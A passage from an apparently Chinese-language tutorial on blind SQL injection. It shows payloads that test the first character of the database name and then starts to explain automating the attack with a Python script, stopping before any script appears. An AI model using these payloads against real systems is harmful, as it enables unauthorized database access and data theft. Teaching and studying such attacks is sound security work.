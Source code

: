 > <img src="./IMG3/13.png">

```sql
1' AND SUBSTR(DATABASE(),1,1)>'v'#
```

> <img src="./IMG3/12.png">

```sql
1' AND SUBSTR(DATABASE(),1,1)='t'#
```

> <img src="./IMG3/11.png">

以此类推，就可以得到当前的数据库名

**脚本注入**

在进行盲注的时候经常会进行重复的工作，因此可以写一个注入脚本来帮助我们进行攻击，这里我们使用python写一个泄露数据库名的脚本

- 获取请求包

在开始编写脚本之前，我们首先需要知道前端向后端发送的请求包的格式，以及传入的参数，这可以使用抓包来获取
